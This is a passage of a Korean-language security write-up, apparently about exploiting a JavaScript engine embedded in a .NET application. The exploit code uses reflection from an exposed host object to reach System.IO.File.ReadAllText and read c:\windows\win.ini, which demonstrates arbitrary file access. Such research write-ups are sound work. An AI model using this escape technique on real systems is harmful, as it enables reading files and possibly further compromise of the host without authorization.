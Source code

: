 <img src="/assets/img/2024-06-30-ExploitingaJavaScriptEngineforNET_17.png" />

이제 동일한 방식으로 System.IO.File 유형에서 ReadAllText 메서드를 가져오겠습니다.



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1898504329"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

```js
var objectClass = this.ProcessChat_Helper.GetType().BaseType;
var typesArray = objectClass.Assembly.GetTypes();
var fileTypeMethods = typesArray.GetValue(2008).GetMethods();
var len = fileTypeMethods.GetLength(0);
var methods = {};
for (let i = 0; i < len; i++) {
  var methodName = fileTypeMethods.GetValue(i).ToString();
  if (methodName.includes("ReadAllText")) {
    var index = i;
    methods[i] = methodName;
  }
}
JSON.stringify(methods);
```

<img src="/assets/img/2024-06-30-ExploitingaJavaScriptEngineforNET_18.png" />

필요한 함수는 인덱스 49에 있으므로, 해당 경로로 호출해 보겠습니다. 메서드에 Invoke를 사용할 것입니다. 문서에서 원하는 Invoke 메서드는 2개의 매개변수를 취하며, 둘 다 객체여야 합니다. 첫 번째 매개변수는 해당 메서드를 호출하려는 클래스의 인스턴스여야 하며, 두 번째 매개변수는 메서드에 전달할 인수를 포함하는 배열이어야 합니다. ReadAllText는 정적 메서드이므로 첫 번째 인수는 null이어야 합니다.

```js
var objectClass = this.ProcessChat_Helper.GetType().BaseType;
var typesArray = objectClass.Assembly.GetTypes();
var fileTypeMethods = typesArray.GetValue(2008).GetMethods();
arg = ["c:\\windows\\win.ini"];
fileTypeMethods.GetValue(49).Invoke(null, arg);
```



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1898504329"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>
